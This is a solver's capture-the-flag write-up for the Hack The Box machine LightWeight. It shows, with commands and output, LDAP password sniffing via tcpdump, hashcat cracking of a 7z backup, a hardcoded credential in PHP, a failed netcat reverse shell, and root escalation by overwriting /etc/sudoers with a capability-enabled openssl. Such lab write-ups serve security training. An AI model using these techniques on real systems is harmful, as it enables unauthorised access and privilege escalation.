

---
tags:
  - ldap
  - openssl
  - capability
group: Linux
---


- Machine : https://app.hackthebox.com/machines/LightWeight/writeups
- Reference : https://0xdf.gitlab.io/2019/05/11/htb-lightweight.html
- Solved : 2025.3.9. (Sun) (Takes 1day)

## Summary
---

1. **Initial Access (`10.10.14.7`)**
    - **Port Scanning**: Identified **SSH (22), HTTP (80), LDAP (389)**.
    - **Web Enumeration**: Found `/status.php` showing blocked IPs and `/reset.php` which resets SSH accounts.
    - **Exploiting Auto-Account Creation**: Triggered `/reset.php`, automatically creating SSH access for **10.10.14.7**.
    - **SSH Login**: Logged in as **10.10.14.7@10.10.10.119**.
    
2. **Privilege Escalation to `ldapuser2`**
    - **LDAP Sniffing**: Used `tcpdump` to capture traffic on **port 389**.
    - **Extracted Credentials**: Found **ldapuser2:8bc8251332abe1d7f105d3e53ad39ac2** in captured LDAP authentication.
    - **User Switch**: Logged in as **ldapuser2** using `su ldapuser2`.
    
3. **Privilege Escalation to `ldapuser1`**
    - **File Enumeration**: Found **backup.7z** in `ldapuser2`'s home directory.
    - **Cracked 7z Password**: Used `hashcat` to crack **password: delete**.
    - **Extracted PHP Files**: Analyzed extracted files, found **ldapuser1's password** in `status.php`.
    - **User Switch**: Logged in as **ldapuser1** using `su ldapuser1`.
    
4. **Privilege Escalation to `root`**
    - **Capabilities Enumeration**: Found **`/home/ldapuser1/openssl`** with `=ep` capabilities.
    - **Overwriting sudoers**: Used OpenSSL to modify `/etc/sudoers`, granting full sudo access.
    - **Root Access**: Verified `sudo -l`, executed `sudo su`, and gained **root shell**.

### Key Techniques:

- **Enumeration**: Nmap, Gobuster, LinPEAS, tcpdump.
- **Credential Discovery**: **Sniffing LDAP traffic**, **cracking 7z archives**, **extracting credentials from PHP scripts**.
- **Exploitation**: **Abusing auto-created SSH accounts**, **leveraging OpenSSL capabilities** for privilege escalation.
- **Privilege Escalation**: **Modifying `sudoers` file via OpenSSL abuse**, achieving full root access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/lightweight]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.119
Performing quick port scan on 10.10.10.119...
Found open ports: 22,80,389
Performing detailed scan on 10.10.10.119...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 23:59 MST
Nmap scan report for 10.10.10.119
Host is up (0.12s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
|   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (ED25519)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Not valid before: 2018-06-09T13:32:51
|_Not valid after:  2019-06-09T13:32:51

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.11 seconds
```

### http(80)



```bash
┌──(kali㉿kali)-[~/htb/lightweight]
└─$ gobuster dir -u http://10.10.10.119 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.119
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 232] [--> http://10.10.10.119/css/]
/manual               (Status: 301) [Size: 235] [--> http://10.10.10.119/manual/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.10.119/js/]
```

Soon the fuzzing is blocked. And I could find the reason from the subpages.


It says that any bruteforce attack can be banned up to 5 minutes.


`/status.php` page contains blocked IPs.


The last page says important thing; The server automatically creates new user account as my IP address (`10.10.14.7` for now) on SSH service.
Also by visiting `/reset.php` page, I can reset the account.


Given the message in the `/reset.php`, it seems that scheduler(ex. cron) is running every minute to check if there's any new request.

### ssh(22)

Let's sign-in with my IP address(`10.10.14.7`) to SSH service.

```bash
┌──(kali㉿kali)-[~/htb/lightweight]
└─$ ssh 10.10.14.7@10.10.10.119
The authenticity of host '10.10.10.119 (10.10.10.119)' can't be established.
ED25519 key fingerprint is SHA256:6X1x0lkFRaoWpmyPQUmUyw0+bJniDRfJ8bhyDelqxOs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.119' (ED25519) to the list of known hosts.
10.10.14.7@10.10.10.119's password: 

[10.10.14.7@lightweight ~]$ id
uid=1004(10.10.14.7) gid=1004(10.10.14.7) groups=1004(10.10.14.7) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[10.10.14.7@lightweight ~]$ whoami
10.10.14.7
```


# Shell as `ldapuser2`

### Enumeration

Let's run `linPEAS`.

```bash
╔══════════╣ PATH
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-path-abuses
/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/home/10.10.14.7/.local/bin:/home/10.10.14.7/bin    


╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash                                                              


╔══════════╣ Users with console
10.10.14.2:x:1002:1002::/home/10.10.14.2:/bin/bash
10.10.14.7:x:1004:1004::/home/10.10.14.7:/bin/bash
127.0.0.1:x:1003:1003::/home/127.0.0.1:/bin/bash
ldapuser1:x:1000:1000::/home/ldapuser1:/bin/bash
ldapuser2:x:1001:1001::/home/ldapuser2:/bin/bash
root:x:0:0:root:/root:/bin/bash


╔══════════╣ Last time logon each user
Username         Port     From             Latest
root             tty1                      Thu Sep 30 14:17:21 +0100 2021
ldapuser2        pts/0                     Fri Nov 16 22:41:31 +0000 2018
10.10.14.2       pts/0    10.10.14.2       Fri Nov 16 22:39:02 +0000 2018
10.10.14.7       pts/0    10.10.14.7       Sun Mar  9 07:36:33 +0000 2025


╔══════════╣ Capabilities
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#capabilities                                                                                            
<SNIP>

Files with capabilities (limited to 50):
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
```

### Sniff LDAP authentication

Here's my assumption.
- The server regularly check access.log, and create a new user as the visitor's IP address.
- This can be done with LDAP protocol.
- What if we can sniff the LDAP request which might contain authentication info?

I captured traffic using `tcpdump`. It captures LDAP packet after a few `/reset.php` page visits.

```bash
[10.10.14.7@lightweight tmp]$ tcpdump -i lo -nnXs 0 'port 389' -w ldap.pcap
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
```

After a while, I moved the `pcap` file to kali, and opened it with wireshark.


If my guess was correct, `ldapuser2`'s password is `8bc8251332abe1d7f105d3e53ad39ac2`.
Using this credential, let's try switching user to `ldapuser2`.

```bash
[10.10.14.7@lightweight tmp]$ su ldapuser2
Password: 

[ldapuser2@lightweight tmp]$ id
uid=1001(ldapuser2) gid=1001(ldapuser2) groups=1001(ldapuser2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[ldapuser2@lightweight tmp]$ whoami
ldapuser2
```

I got `ldapuser2`'s shell!


# Shell as `ldapuser1`

### Enumeration

```yaml
[ldapuser2@lightweight ~]$ ls -al
total 1880
drwx------. 4 ldapuser2 ldapuser2     197 Sep 27  2021 .
drwxr-xr-x. 7 root      root           93 Mar  9 08:48 ..
-rw-r--r--. 1 root      root         3411 Jun 14  2018 backup.7z
lrwxrwxrwx. 1 root      root            9 Sep 27  2021 .bash_history -> /dev/null
-rw-r--r--. 1 ldapuser2 ldapuser2      18 Apr 11  2018 .bash_logout
-rw-r--r--. 1 ldapuser2 ldapuser2     193 Apr 11  2018 .bash_profile
-rw-r--r--. 1 ldapuser2 ldapuser2     246 Jun 15  2018 .bashrc
drwxrwxr-x. 3 ldapuser2 ldapuser2      18 Jun 11  2018 .cache
drwxrwxr-x. 3 ldapuser2 ldapuser2      18 Jun 11  2018 .config
-rw-rw-r--. 1 ldapuser2 ldapuser2 1520530 Jun 13  2018 OpenLDAP-Admin-Guide.pdf
-rw-rw-r--. 1 ldapuser2 ldapuser2  379983 Jun 13  2018 OpenLdap.pdf
-rw-r--r--. 1 root      root           33 Mar  9 07:19 user.txt
```

There's `backup.7z` file.
I tried to unzip it, but it was asking password.

```bash
┌──(kali㉿kali)-[~/htb/lightweight]
└─$ 7z x backup.7z 

7-Zip 24.08 (arm64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11
 64-bit arm_v:8-A locale=en_US.UTF-8 Threads:2 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 3411 bytes (4 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 3411
Headers Size = 259
Method = LZMA2:12k 7zAES
Solid = +
Blocks = 1

Enter password (will not be echoed):
```

### Crack 7z file

Let's copy this to kali, and crack it.

```bash
┌──(kali㉿kali)-[~/htb/lightweight]
└─$ 7z2john backup.7z 
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes
backup.7z:$7z$2$19$0$$8$11e96ba400e3926d0000000000000000$1800843918$3152$3140$1ed4a64a2e9a8bc76c59d8160d3bc3bbfd995ce02cf430ea41949ff4d745f6bf3ed238e9f06e98da3446dda53df0abf11902852e4b2a4e32e0b0f12b33af40d351b2140d6266db1a3d66e1c82fa9d516556ec
...SNIP...
f664a0f49c1f67940d792d225272e713259f3135e5c286e081b1e2331f9217de1c0c9109d7a898458be85a4c130ea6e8c0db4dc5dbf77da5045f7da647c66e5af5676bb15221d5152da551a9390fda92e3539fde7afbd04e2e710ef28b5d5e50f2fdac106c9a18ef02414fb466f50f52b6e88e336ffe4fa929d9548630f3d7fb7d50ea590b2e3bdc3a88cf9d7f6b30f07d28ddf28c15c5371eb$4218$03


┌──(kali㉿kali)-[~/htb/lightweight]
└─$ 7z2john backup.7z > backup_7z.hash
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes
```

With `--user` option, I can successfully crack the hash.
The cracked password for `7z` file is `delete`.

```bash
┌──(kali㉿kali)-[~/htb/lightweight]
└─$ hashcat -m 11600 -a 0 backup_7z.hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1436/2937 MB (512 MB allocatable), 2MCU

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

<SNIP>

$7z$2$19$0$$8$11e96ba400e3926d0000000000000000$1800843918$3152$3140$1ed4a64a2e9a8bc76c59d8160d3bc3bbfd995ce02cf430ea41949ff4d745f6bf3ed238e9f06e98da3446dda53df0abf11902852e4b2a4e32e0b0f12b33af40d351b2140d6266db1a3d66e1c82fa9d516556ec893ba6841f052618ad210593b9975307b98db7e853e3ebfbef6856039647a6ad33a63f5b268fc003c39eba04484
...SNIP...
1f67940d792d225272e713259f3135e5c286e081b1e2331f9217de1c0c9109d7a898458be85a4c130ea6e8c0db4dc5dbf77da5045f7da647c66e5af5676bb15221d5152da551a9390fda92e3539fde7afbd04e2e710ef28b5d5e50f2fdac106c9a18ef02414fb466f50f52b6e88e336ffe4fa929d9548630f3d7fb7d50ea590b2e3bdc3a88cf9d7f6b30f07d28ddf28c15c5371eb$4218$03:delete
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 11600 (7-Zip)
Hash.Target......: $7z$2$19$0$$8$11e96ba400e3926d0000000000000000$1800...218$03
<SNIP>
```

Then, let's extract files from the `7z` file.

```yaml
┌──(kali㉿kali)-[~/htb/lightweight/backup]
└─$ 7z x backup.7z

7-Zip 24.08 (arm64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-08-11
 64-bit arm_v:8-A locale=en_US.UTF-8 Threads:2 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 3411 bytes (4 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 3411
Headers Size = 259
Method = LZMA2:12k 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
Everything is Ok

Files: 5
Size:       10270
Compressed: 3411
```

### Credential stored in php file

There are several `php` files extracted which seem to be web server's resources.

```bash
┌──(kali㉿kali)-[~/htb/lightweight/backup]
└─$ ls
backup.7z  backup_7z.hash  index.php  info.php  reset.php  status.php  user.php
```

I investigated all `php` files, and found a credential for `ldapuser1` from `status.php`.

```bash
┌──(kali㉿kali)-[~/htb/lightweight/backup]
└─$ cat status.php
<!DOCTYPE html>
<html lang="en" >

<?php $ip=$_SERVER['REMOTE_ADDR'];?>

...SNIP...

<?php
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
$ldapconfig['host'] = 'lightweight.htb';
$ldapconfig['port'] = '389';
$ldapconfig['basedn'] = 'dc=lightweight,dc=htb';
//$ldapconfig['usersdn'] = 'cn=users';

...SNIP...
```

The password for `ldapuser1` is `f3ca9d298a553da117442deeb6fa932d`.
Let's switch user to `ldapuser1`.

```bash
[ldapuser2@lightweight ~]$ su ldapuser1
Password: 

[ldapuser1@lightweight ldapuser2]$ id
uid=1000(ldapuser1) gid=1000(ldapuser1) groups=1000(ldapuser1) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[ldapuser1@lightweight ldapuser2]$ whoami
ldapuser1
```


# Shell as `root`

### Enumeration

I checked capabilities using `getcap`.

```bash
[ldapuser1@lightweight ~]$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
```

It seems that `openssl` is granted all capabilities.
Another observation is there are binaries on `ldapuser1`'s home directory.

```bash
[ldapuser1@lightweight ~]$ ls -al
total 1496
drwx------. 4 ldapuser1 ldapuser1    181 Sep 27  2021 .
drwxr-xr-x. 7 root      root          93 Mar  9 08:48 ..
lrwxrwxrwx. 1 root      root           9 Sep 27  2021 .bash_history -> /dev/null
-rw-r--r--. 1 ldapuser1 ldapuser1     18 Apr 11  2018 .bash_logout
-rw-r--r--. 1 ldapuser1 ldapuser1    193 Apr 11  2018 .bash_profile
-rw-r--r--. 1 ldapuser1 ldapuser1    246 Jun 15  2018 .bashrc
drwxrwxr-x. 3 ldapuser1 ldapuser1     18 Jun 11  2018 .cache
-rw-rw-r--. 1 ldapuser1 ldapuser1   9714 Jun 15  2018 capture.pcap
drwxrwxr-x. 3 ldapuser1 ldapuser1     18 Jun 11  2018 .config
-rw-rw-r--. 1 ldapuser1 ldapuser1    646 Jun 15  2018 ldapTLS.php
-rwxr-xr-x. 1 ldapuser1 ldapuser1 555296 Jun 13  2018 openssl
-rwxr-xr-x. 1 ldapuser1 ldapuser1 942304 Jun 13  2018 tcpdump
```

Those `openssl`, and `tcpdump` are supposed to be in `/usr/bin` or `/usr/sbin` directory as well.

```bash
[ldapuser1@lightweight ~]$ which openssl
/usr/bin/openssl

[ldapuser1@lightweight ~]$ which tcpdump
/usr/sbin/tcpdump
```

Let's compare these.

```bash
[ldapuser1@lightweight ~]$ md5sum /home/ldapuser1/openssl /usr/bin/openssl
fba9d597671181560afeec189d92348c  /home/ldapuser1/openssl
fba9d597671181560afeec189d92348c  /usr/bin/openssl


[ldapuser1@lightweight ~]$ md5sum /home/ldapuser1/tcpdump /usr/sbin/tcpdump
d9e3583b74ec93b4c9c792be985d1b8b  /home/ldapuser1/tcpdump
d9e3583b74ec93b4c9c792be985d1b8b  /usr/sbin/tcpdump
```

The binaries themselves are the same with original ones.
Instead, as we checked ahead, `openssl` on home directory has different capability.

```bash
[ldapuser1@lightweight ~]$ getcap /home/ldapuser1/tcpdump /usr/sbin/tcpdump
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep


[ldapuser1@lightweight ~]$ getcap /home/ldapuser1/openssl /usr/bin/openssl
/home/ldapuser1/openssl =ep
```

### Exploit `openssl`

##### Reverse shell (Failed)

I tried to open a reverse shell for the first try but it was not successful.

```bash
┌──(kali㉿kali)-[~/htb/lightweight]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.119] 46952
▒��H��D5��1�#K�E&�<y##.�a?R�)�b��0�,�(�$��
����kjih9876�����2�.�*�&���=5��/�+�'�#��        ����g@?>3210����EDCB�1�-�)�%���</�A��
���
   ��C
```

It seems not working. I think it's because `/bin/sh` doesn't have the capabilities that `openssl` has.

##### Overwrite `/etc/sudoers`

Next choice is overwriting `/etc/sudoers` file.
First let's backup the current `sudoers` file.

```bash
[ldapuser1@lightweight ~]$ ./openssl enc -in /etc/sudoers > /dev/shm/sudoers


[ldapuser1@lightweight ~]$ cat /dev/shm/sudoers
## Sudoers allows particular users to run various commands as
## the root user, without needing the root password.
##
## Examples are provided at the bottom of the file for collections
## of related commands, which can then be delegated out to particular
## users or groups.
## 
## This file must be edited with the 'visudo' command.

...SNIP...

Defaults    secure_path = /sbin:/bin:/usr/sbin:/usr/bin

## Next comes the main part: which users can run what software on 
## which machines (the sudoers file can be shared between multiple
## systems).
## Syntax:
##
##      user    MACHINE=COMMANDS
##
## The COMMANDS section may have other options added to it.
##
## Allow root to run any commands anywhere 
root    ALL=(ALL)       ALL

...SNIP...
```

Then, append `ldapuser1    ALL=(ALL)    ALL` to the saved file.

```bash
[ldapuser1@lightweight ~]$ echo "ldapuser1    ALL=(ALL)       ALL" >> /dev/shm/sudoers


[ldapuser1@lightweight ~]$ tail /dev/shm/sudoers
## Allows members of the users group to mount and unmount the 
## cdrom as root
# %users  ALL=/sbin/mount /mnt/cdrom, /sbin/umount /mnt/cdrom

## Allows members of the users group to shutdown this system
# %users  localhost=/sbin/shutdown -h now

## Read drop-in files from /etc/sudoers.d (the # here does not mean a comment)
#includedir /etc/sudoers.d
ldapuser1    ALL=(ALL)       ALL
```

Then, I overwrote `/etc/sudoers` file.

```bash
[ldapuser1@lightweight ~]$ cat /dev/shm/sudoers | base64 | ./openssl enc -d -base64 -out /etc/sudoers
```

After all, let's check `sudo -l`.

```bash
[ldapuser1@lightweight ~]$ sudo -l
[sudo] password for ldapuser1: 
Matching Defaults entries for ldapuser1 on lightweight:
    !visiblepw, always_set_home, match_group_by_gid, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User ldapuser1 may run the following commands on lightweight:
    (ALL) ALL
```

Using that permission, let's open a `root` shell.

```bash
[ldapuser1@lightweight ~]$ sudo su

[root@lightweight ldapuser1]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@lightweight ldapuser1]# whoami
root
```
